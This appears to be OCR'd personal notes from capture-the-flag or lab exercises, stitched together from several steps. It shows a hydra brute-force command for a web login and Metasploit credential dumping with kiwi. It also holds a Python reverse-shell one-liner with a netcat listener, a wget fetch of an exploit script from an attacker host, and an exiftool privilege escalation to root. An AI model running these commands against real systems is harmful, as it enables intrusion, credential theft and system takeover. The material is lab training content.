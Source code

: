```
<login_credentials>	the username and password used to log in, for example, username=^USER^&password=^PASS^
<invalid_response>	part of the response when the login fails
-V	verbose output for every attempt


hydra -l <username> -P <wordlist> 10.10.210.242 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

The login page is only /, i.e., the main IP address.
The username is the form field where the username is entered
The specified username(s) will replace ^USER^
The password is the form field where the password is entered
The provided passwords will be replacing ^PASS^
Finally, F=incorrect is a string that appears in the server reply when the login fails


sudo hydra molly rockyou.txt 10.10.210.242 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```



run post/multi/recon/local_exploit_suggester
typing ‘session <session number>
getprivs
ps
load kiwi
creds_all
•	In my machine type nc -lvnp 8005 to open a shell in port 8005
•	Copy the and edit the IP and Port of the python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'


•	Type mongo to start the mongo DB
•	Type show dbs to see our databases on the target. There are three of them, admin that is empty, local, and sudousersbak that looks interesting to me
•	Type use sudousersbak to go to this database
•	Type show collections to see the collections in the DB. There are three collection in there, the flag, the user, and the system.indexes
•	Type db.flag.find() to see the flag
•	Type db.user.find() to see the what’s in user collection. I found the password of the user stux here



Exiftool
•	Download it by typing wget 10.2.63.225:8008/<filename.sh>. In this case, our script name is exp.sh, and we can see it after running the ls command. 
•	Then we give the file full permission by typing chmod 777 exp.sh to be executable by everyone.
•	Run the script followed by your desired command, for example bash ./exp.sh ‘sudo su’
•	Now, the script, created another file for us called delicate.jpg that if we run it as the root with the exiftool, we would get the root privilege
•	sudo -u root /usr/local/bin/exiftool delicate.jpg.
import os
try:
os.system(“/bin/bash”)
except:
	pass
